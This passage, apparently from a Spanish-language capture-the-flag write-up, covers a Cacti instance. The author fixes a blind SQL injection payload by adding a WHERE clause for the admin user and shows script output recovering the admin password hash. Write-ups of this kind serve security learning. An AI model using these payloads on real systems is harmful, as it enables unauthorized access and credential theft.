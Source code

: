 Vemos una instancia de cacti.
![Write-up Image](images/Screenshot_8.png)

En este momento me empecé a volver loco y me di cuenta de un fallo que había cometido...

En el script inicial, el primer hash no es del usuario `admin` porque en el payload se me olvidó especificar la clausula `WHERE` entonces cogió el primer hash que encontró basándose en los caracteres ordenados por orden alfabético.

```python
sqli_payload = "' or username=(select username from users where password like '<REPLACE>%')-- -"
```

Debería haber sido 
```python
sqli_payload = "' or username=(select username from users where password like '<REPLACE>%' and username = 'admin')-- -"
```

```shell
Trying payload: 31a181c8372e3afc59dab863430610e89
Final sequence found: 31a181c8372e3afc59dab863430610e8
```

`31a181c8372e3afc59dab863430610e8` es el hash de admin.

¡Ahora tenemos unas credenciales válidas!
![Write-up Image](images/Screenshot_9.png)
